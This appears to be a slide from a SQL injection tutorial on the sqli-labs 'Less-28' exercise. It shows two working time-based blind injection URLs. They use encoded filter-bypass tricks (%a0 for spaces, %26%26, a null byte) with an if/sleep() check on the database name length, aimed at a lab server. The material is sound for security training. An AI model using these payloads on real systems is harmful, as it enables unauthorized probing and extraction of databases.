

# Less-28_02
法二：基于时间的盲注
1. http://47.100.118.240:8888/Less-28/?id=1')  %a0   %26%26 if( length(database())>1, 1, sleep(5)    ) ;%00
2. http://47.100.118.240:8888/Less-28/?id=1')  %a0   %26%26 if( length(database())>1, 1, sleep(5)    )  %26%26  ('1')=(‘1
这两种都是可以的